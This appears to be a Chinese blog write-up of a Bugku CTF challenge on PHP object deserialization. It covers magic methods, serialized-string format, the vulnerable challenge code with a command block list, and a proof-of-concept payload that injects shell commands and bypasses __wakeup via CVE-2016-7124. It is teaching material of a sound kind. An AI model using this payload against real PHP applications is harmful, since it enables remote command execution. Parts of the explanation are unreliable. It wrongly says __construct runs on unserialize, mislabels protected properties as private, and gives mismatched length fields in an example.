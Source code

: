 ```yaml
---
title: PHP 反序列化
date: 2021-07-08 17:08:50
description: 
categories:
  - Pentest
tags:
  - deserialize
---
```


### 0x01 php 中的魔法函数
__construct()：PHP 中类的构造函数，创建对象时调用。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作。

__destruct()：PHP 中类的析构函数，销毁对象时调用。PHP 5 后引入了析构函数的概念，析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。

__toString() 当一个对象被当作一个字符串使用。

__sleep() 在对象在被序列化之前被调用。

__wakeup 将在序列化之后立即被调用。

### 0x02 序列化和反序列化
serialize() 会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会在 __construct 后被调用，然后才执行序列化操作。

unserialize() 会检查类中是否存在一个 __wakeup() 方法。如果存在，则会在 __destruct 前调用 __wakeup 方法，预先准备对象需要的资源。

### 0x03 序列化字符串格式
在 PHP 序列化得到的字符串中，字段根据长度判断内容、以 ; 作为字段的分隔、以 } 作为结尾(字符串除外)
```php
O:3:"ctf":2:{s:11:"username";s:5:"admin";s:6:"cmd";s:2:"ls";}

O 代表对象，因为我们序列化的是一个对象，序列化数组则用 A 来表示
3 代表类名长度 
ctf 是类名
2 代表两个属性

s 代表字符串
11 代表属性名长度
username 是属性名
s:5:"admin" 属性值时字符串 属性值长度 属性值
```

### 0x04 序列化中的访问控制修饰符
需要<f>注意</f>的是当访问控制符为 private 与 protect 时，序列化时比较特殊：

protected 属性被序列化的时候属性值会变成：%00\*%00 属性名

private 属性被序列化的时候属性值会变成：%00类名%00 属性名

### 0x05 题目
Bugku CTF 的题 index.php
```php
<?php 
header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf {
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username, $cmd) {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup() {
        $this->username = 'guest';
    }

    function __destruct() {
        if(preg_match("/cat|more|tail|less|head|curl|sort|echo/i", $this->cmd)) {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin') {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        } else {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}

$select = $_GET['code'];
$res = unserialize(@$select);
?>
```

### 0x06 构造 poc
题目中当 \$this->username 为 admin 时才执行命令 \`$this->cmd`

所以我们需要设置 username 为 admin，同时给 cmd 设置值

poc.php
```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo $code;
?>
```
输出：O:3:"ctf":2:{s:11:"\*username";s:5:"admin";s:6:"\*cmd";s:2:"ls";}

因为访问控制符为 private，所以 poc 需要改为：

```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo str_replace("*", "%00*%00", $code);
?>
```

输出：O:3:"ctf":2:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}

当题目中的代码反序列化我们提交的 code 参数(序列化后的字符串，其实是类) 时，类会先调用构造函数 __construct，从而设置 username 为 admin、cmd 为 ls

结束时我们的类调用析构函数 __destruct 时，$this->username === 'admin' 就会为 true

因为 unserialize() 在执行时会检查是否存在 __wakeup() 方法，题目中显然是存在的，所以执行完 __construct 后会再执行 __wakeup，那 $this->username 会再次被赋值为 'guest'，这里将变量个数修改为大于实际值的数就能够绕过(CVE-2016-7124)，所以最终 poc 为：
`O:3:"ctf":<f>5</f>:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}`

### 0x07 利用
每次本地访问 poc.php?cmd=whoami、poc.php?cmd=ls 生成对应的 poc

然后访问 index.php?code=O:3:"ctf":2:{xxxxxxxxxx} 即可

